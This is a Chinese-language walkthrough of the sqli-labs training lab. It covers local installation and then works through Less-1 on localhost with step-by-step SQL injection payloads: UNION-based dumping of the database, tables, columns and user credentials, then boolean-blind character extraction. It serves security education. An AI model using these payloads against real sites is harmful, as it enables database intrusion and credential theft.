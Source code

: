 SQLI labs to test error based, Blind boolean based, Time based.

## 1. Install

安装依赖

```
┌──(sec@debian)-[~]
└─$ sudo apt install -y apache2 mariadb-server mariadb-client php php-mysqli
```

Clone

```
┌──(sec@debian)-[~]
└─$ sudo -E git clone https://github.com/skyblueee/sqli-labs-php7.git /var/www/html/sqli-labs
```

## 2. Init

Configure

```
┌──(sec@debian)-[~]
└─$ sudo nano -l /var/www/html/sqli-labs/sql-connections/db-creds.inc
```

```php
4 $dbuser ='root';
5 $dbpass ='123456';
```

Click `Setup/reset Database for labs` 

> http://127.0.0.1:60080/sqli-labs/

## 3. Usage

Visit

> [Page-1(Basic Challenges)](http://127.0.0.1:60080/sqli-labs/#fm_imagemap)
>
> [Page-2 (Advanced Injections)](http://127.0.0.1:60080/sqli-labs/index-1.html)
>
> [Page-3 (Stacked Injections)](http://127.0.0.1:60080/sqli-labs/index-2.html)
>
> [Page-4 (Challenges)](http://127.0.0.1:60080/sqli-labs/index-3.html)

### 3.1. Less-1

> http://127.0.0.1:60080//sqli-labs/Less-1/

### 3.1.1. 准备

**判断是否存在 sql 注入**

提交常见的闭合符号 `'`

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1'
```

> 报错

注释

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' --+
```

> 正常

手动闭合

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and '1
```

> 正常，存在字符型 sql 注入

**判断闭合方式**

提交转义符 `\` 

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1\
```

> 报错

查看报错

```
'1\' LIMIT 0,1
```

> `\` 后的 `'` 被转义，无法闭合，闭合符号为 `'`

**判断字段数量**

利用 `order by` 判断

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' order by 4 --+
```

> 当写入使用第 4 个字段排序时报错，说明后台查询有 3 个字段

### 3.1.2. 联合查询

**爆显示位置**

已知有 3 个字段，提交三个字段查看显示位置

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=-1' union select 1,2,3 --+
```

可以看到只有 2，3 处有回显

![可以看到只有 2，3 处有回显](./../../../../../images/sqli-labs/%E4%BD%BF%E7%94%A8/Less-1/%E5%8F%AF%E4%BB%A5%E7%9C%8B%E5%88%B0%E5%8F%AA%E6%9C%89%202%EF%BC%8C3%20%E5%A4%84%E6%9C%89%E5%9B%9E%E6%98%BE.png)

> 因此只能在 2，3  处构造语句

**爆库**

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=-1' union select 1,2,database() --+
```

得到数据库名为 `secrity`

![得到数据库名为 security](./../../../../../images/sqli-labs/%E4%BD%BF%E7%94%A8/Less-1/%E5%BE%97%E5%88%B0%E6%95%B0%E6%8D%AE%E5%BA%93%E5%90%8D%E4%B8%BA%20security.png)

**爆表**

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()) --+
```

得到数据表名

![得到数据表名](./../../../../../images/sqli-labs/%E4%BD%BF%E7%94%A8/Less-1/%E5%BE%97%E5%88%B0%E6%95%B0%E6%8D%AE%E8%A1%A8%E5%90%8D.png)

> 根据数据表名选择数据表

**爆字段**

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users') --+
```

得到字段名

![得到字段名](./../../../../../images/sqli-labs/%E4%BD%BF%E7%94%A8/Less-1/%E5%BE%97%E5%88%B0%E5%AD%97%E6%AE%B5%E5%90%8D.png)

**拖库**

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(username,'_',password) from users) --+
```

为了方便显示可以换行显示

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=-1' union select 1,2,(select group_concat(username,0x5F,password,0x3C,0x68,0x72,0x2F,0x3E) from users) --+
```

### 3.1.3. 布尔盲注

**爆库**

**判断数据库长度**

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and (length(database())=8) --+
```

> 长度为 8

**取数据库名的每个字符的 ascii 码**

第一个码

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and ascii(substr(database(),1,1)) = 115 --+
```

> 第一个码为 115 是 s

第二个码

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and ascii(substr(database(),2,1)) = 101 --+
```

> 第二个码为 101 是 e

第三个码

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and ascii(substr(database(),3,1)) = 99 --+
```

> 第二个码为 99 是 c

第四个码

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and ascii(substr(database(),4,1)) = 117 --+
```

> 第四个码为 117 是 u

第五个码

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and ascii(substr(database(),5,1)) = 114 --+
```

> 第五个码为 114 是 r

第六个码

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and ascii(substr(database(),6,1)) = 105 --+
```

> 第六个码为 105 是 i

第七个码

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and ascii(substr(database(),7,1)) = 116 --+
```

> 第七个码 为116 是 t

第八个码

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and ascii(substr(database(),8,1)) = 121 --+
```

> 第八个码为 121 是 y

数据库名为 `security`

**爆表**

**确定当前库中表的个数**

```
http://127.0.0.1:60080/sqli-labs/Less-1/?id=1' and (select count(*) from information_schema.tables where table_schema=database())=4 --+
```

### 3.2. Less-2

---

References

- [sqli-labs](https://github.com/Audi-1/sqli-labs)

